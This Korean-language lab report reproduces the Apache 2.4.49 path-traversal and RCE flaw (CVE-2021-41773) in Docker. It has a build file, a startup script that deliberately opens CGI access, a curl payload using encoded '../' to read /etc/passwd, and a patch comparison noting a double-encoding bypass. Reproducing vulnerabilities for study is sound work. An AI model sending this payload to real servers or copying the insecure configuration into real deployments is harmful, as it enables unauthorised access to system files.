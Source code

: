 # CVE-2021-41773 Apache Path Traversal & RCE PoC (Docker 기반)

## 개요

이 보고서는 Apache HTTP Server 2.4.49 버전에서 발생한 경로 탐색(Path Traversal) 및 원격 코드 실행(RCE) 취약점(CVE-2021-41773)에 대한 PoC를 Docker 환경으로 재현하고, 분석 결과를 정리한 문서입니다. 해당 취약점은 URL 인코딩을 우회하여 시스템 파일에 접근할 수 있습니다.

---

## 취약점 설명

- Apache 2.4.49에서는 요청 경로 내의 `../` 경로 탐색 문자열에 대한 필터링이 불완전하여, URL 인코딩(`%2e%2e/`) 등을 이용한 우회가 가능했습니다.
- 이로 인해 공격자는 웹 루트 밖의 시스템 파일(`/etc/passwd` 등)에 접근하거나, CGI 기능이 활성화된 경우 임의의 명령 실행이 가능합니다.

---

## 취약 환경 구성 파일

### 📄 Dockerfile

```dockerfile
FROM ubuntu:20.04

RUN apt-get update --allow-releaseinfo-change && \
    DEBIAN_FRONTEND=noninteractive apt-get install -y \
    wget curl make gcc g++ perl libpcre3 libpcre3-dev \
    libapr1 libapr1-dev libexpat1-dev && \
    apt-get clean

RUN wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    tar xvfz apr-1.7.0.tar.gz && cd apr-1.7.0 && \
    ./configure --prefix=/usr/local/apr && make && make install

RUN wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar xvfz apr-util-1.6.1.tar.gz && cd apr-util-1.6.1 && \
    ./configure --with-apr=/usr/local/apr --prefix=/usr/local/apr-util && \
    make && make install

RUN wget https://sourceforge.net/projects/pcre/files/pcre/8.45/pcre-8.45.tar.gz && \
    tar xvfz pcre-8.45.tar.gz && cd pcre-8.45 && \
    ./configure --prefix=/usr/local/pcre && make && make install

RUN wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    tar -xf httpd-2.4.49.tar.gz && cd httpd-2.4.49 && \
    ./configure --prefix=/usr/local/apache2.4.49 \
    --enable-module=so --enable-rewrite --enable-so \
    --with-apr=/usr/local/apr/ \
    --with-apr-util=/usr/local/apr-util \
    --with-pcre=/usr/local/pcre \
    --enable-mods-shared=all && \
    make && make install

COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

EXPOSE 8080
CMD ["/entrypoint.sh"]
```

### 📄 entrypoint.sh

```bash
#!/bin/bash

sed -i 's/Listen 80/Listen 8080/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i 's/Require all denied/Require all granted/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i '/mod_cgi.so/s/^#//g' /usr/local/apache2.4.49/conf/httpd.conf

cat <<EOF >> /usr/local/apache2.4.49/conf/httpd.conf

<Directory "/usr/local/apache2.4.49/cgi-bin">
    Options +ExecCGI
    AddHandler cgi-script .sh
    Require all granted
</Directory>
EOF

/usr/local/apache2.4.49/bin/httpd -k start -DFOREGROUND
```

### 📄 docker-compose.yml

```yaml
version: '3'
services:
  apache-vuln:
    build: .
    ports:
      - "8080:8080"
```

---

## PoC 수행

### 1️⃣ 도커 빌드 및 실행

```bash
docker compose up -d
```

### 2️⃣ Apache 버전 확인

```bash
curl -I http://localhost:8080
```
https://www.notion.so/image/attachment%3Ac2254b7c-27f1-4ba0-b745-61af442918cf%3Aimage.png?table=block&id=1d507773-0817-80a5-89d5-fd6759a4a62d&spaceId=95404558-ecda-4222-a4e2-a7e22ecef8b3&width=1540&userId=09e0c148-142e-4b4c-8c82-fa4a60a92d58&cache=v2
### 3️⃣ Path Traversal 테스트

```bash
curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```
https://www.notion.so/image/attachment%3A21f597c1-cea4-4e68-bcca-258b40631327%3Aimage.png?table=block&id=1d507773-0817-8016-ad99-c5eb80ec3e27&spaceId=95404558-ecda-4222-a4e2-a7e22ecef8b3&width=1540&userId=09e0c148-142e-4b4c-8c82-fa4a60a92d58&cache=v2
---

## 패치 분석 및 버전 비교

| 버전 | 우회 가능 여부 | 설명 |
|------|----------------|------|
| 2.4.49 | ✅ 가능 | `%2e%2e/` 인코딩 필터링 미흡 |
| 2.4.50 | ⚠️ 일부 가능 | 이중 인코딩(`%%32%65`)으로 우회 가능 |
| 2.4.51 | ❌ 차단 | 이중 인코딩, 슬래시 필터링까지 완전 차단 |

> Apache는 `ap_normalize_path`, `ap_unescape_url` 함수에 필터링을 추가하여 우회 가능성을 원천 차단하였습니다.

---

## 결론

Apache HTTP Server 2.4.49의 경로 유효성 검증 부족으로 인해 발생한 CVE-2021-41773은 단순한 URL 인코딩으로도 시스템 파일 접근 및 명령 실행이 가능했던 치명적인 취약점입니다. 본 보고서는 Docker 환경 내에서 이를 재현하며, 차후 취약점 분석이나 보안 교육 자료로 활용할 수 있습니다.
